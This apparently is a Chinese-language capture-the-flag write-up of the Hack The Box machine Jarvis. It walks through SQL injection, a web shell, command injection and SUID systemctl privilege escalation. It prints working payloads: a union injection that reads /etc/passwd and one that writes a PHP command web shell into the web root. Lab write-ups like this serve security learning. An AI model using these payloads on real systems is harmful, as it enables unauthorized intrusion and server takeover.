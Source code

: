 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ozhnY8L-cHC-29hQqiJkeQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **160** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/194

靶机难度：初级（4.7/10）

靶机发布日期：2019 年 9 月 9 日

靶机描述：

Jarvis is a medium difficulty Linux box running a web server, which has DoS and brute force protection enabled. A page is found to be vulnerable to SQL injection, which requires manual exploitation. This service allows the writing of a shell to the web root for the foothold. The www user is allowed to execute a script as another user, and the script is vulnerable to command injection. On further enumeration, systemctl is found to have the SUID bit set, which is leveraged to gain a root shell.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLo8AukXTL9tHo1Q0SpktgNLX2ULk4Nzkr6jNrqvCuB9fOLEkYGiao8XA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.143...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLRpLv5Xfu89ib4s4I9n0OfWKqIqaf3NDVEbLD70JRA8UficfVcz5bAHog/640?wx_fmt=png)

我这里利用 Masscan 快速的扫描出了 21，22，64999 端口，在利用 nmap 详细的扫描了三个端口信息，22 是 ssh，64999 是 http 服务等...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLzp8kOcicI9MPbyB8w9fyjFiae8dEqFj2VrCaXxVcEmVSiclLTGW6YIUDA/640?wx_fmt=png)

访问到端口 80 上的 Apache 服务器，可以看到一个名为 “Stark Hotel” 的页面....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pL3Qqib1dP674HmOhtpAog7rr5WEheDwG5nkticWFkLlOokta0aSjEtlcg/640?wx_fmt=png)

可看到该页面有订餐页面，也有订房页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLgF1lNLeJbl7zXDu2Hsz9iapoPjcBkKicZbUqsjIgicApYictvUxWQYyXAA/640?wx_fmt=png)

随意进入一个订房页面，发现 URL，存在 sql 注入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLsUfhnQWicrNZ5r3oCOFmAUGyQuBxJobXPyqTh50L0rrUiaIE26N4R7aQ/640?wx_fmt=png)

测试发现可利用 sql 注入提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pL0tDk2dQSibWbjYiazNOPoEXNHKib9Cy56dbILoFIw957MZ1oKWjicShfzQ/640?wx_fmt=png)

```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7
```

发现了 2 存在注入点，查看到了 passwd 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pL2yD13ibFicBHEUc10KQxaRQh36QWgIu4PqnOxevibuqybo5qPa7UYnFbA/640?wx_fmt=png)

利用 into outfile 创建了文本... 将查看到的信息放入了文本中... 测试看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLsMccNlxDCiaGScAASHHHrojjfFBW9nKUZlkhE8Dx3frAnxTxedYM57w/640?wx_fmt=png)

可看到，成功的，那么简单了，写个 shell 提权即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLicpeTJAUibsA3hW6AdnZIraMxZWw4jkAxlCAIkTDGb4kbnZEh4iak0xSQ/640?wx_fmt=png)

```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["dayu"]);?>',3,4,5,6,7 into outfile '/var/www/html/dayu.php'
```

简单写入 cmd 命令...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLTL8iaibCIrzlurw71gUSapOygwmI9blrBh1iauicXsrtFgLgZgZ0cibke5w/640?wx_fmt=png)

然后利用 cmd 直接写入 shell，获得了反向外壳 www 权限.... 但是无法读取 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLTj2MmaMU8ttTp3gDNObsRoVDC8iaNiaBSza9t9aeMjeZq2OhM7I4Wgag/640?wx_fmt=png)

sudo 发现了 all 存在 simpler.py 脚本... 查看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLqiciaXCqGKVc999Ud6ZChYP5zSZHTic7jGibCrzcZQ3IDAia16YHcA5pTtw/640?wx_fmt=png)

查看脚本，看到它使用 - p 参数获取 IP 地址，然后使用 os.system（）函数执行 ping....

脚本还阻止了一些字符（＆;-`| |）以防止注入...

但不会阻止字符 “$”，“（）字符，这可以通过 bash 命令替换即“ $（cmd）” 注入命令提权....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLv94w9T273Kbt9mRDJkn9rDN3OiamFJq8euUB9PG2FV7DAFW7G8lPWsQ/640?wx_fmt=png)

可以看到该命令被用户名 pepper 代替，并且 ping 尝试将其解析为主机名说明命令执行成功...

那么可以使用它来执行 bash 反向 shell，并获得一个 shell 作为 Pepper....

由于某些特殊字符被阻止，我将命令写入脚本并通过注入执行它....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLoxJM01ricBo4c8vGNFTx92vj72V7EicnH9hUD7K8fk54u33ia9JPCjt7g/640?wx_fmt=png)

简单的 shell 写入即可...

然后执行 shell 获得了反向外壳 pepper 用户权限... 获得了 user_flag 信息...

由于这个外壳不稳定... 我进行了 ssh

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLxibTK4AB8icIBvaSjFdOdCY9Nkx5SE1OT7LZX9gastg02tdoNfHtjfkw/640?wx_fmt=png)

创建. ssh，并本地生成 ssh-key.... 然后写入到 pepper 中...（简单操作）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pL4ItTOyLqSVqfgTOBVLIqIBbIdTwibnrDgh4Us3vuxOuS7ibeJhABfgSw/640?wx_fmt=png)

ssh 登录后，枚举了 SUID，发现存在 systemctl....

systemctl 命令用于管理运行 systemd 的系统上的服务....google 看看怎么利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pLnD0qFTqy0ZEiay2h9mJJmPgevBQtwT4GrWb1gLdczT6Cy96bdl6gRSw/640?wx_fmt=png)

google 发现了挺多提权的办法...

只需要创建一个服务，该服务在启动时执行我们选择的文件，然后使用它 systemctl 来启用和启动它.. 这样就能执行了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMMX7DC2SxNN7aLoJHjm7pL3ukBf3kVhSkaVYI2QG2H0zHrTu2HSg0DBwFAt8oM0yud7icJVhtv6rQ/640?wx_fmt=png)

  

我创建了一个简单的 bash-shell，然后创建 service 服务，并利用 systemctl 进行启动，启动后执行. sh 的 shell，并获得了 root 权限的反向外壳...

获得了 root_flag 信息...

简单的 sql 注入 --systemctl(SUID）提权....

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台初级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)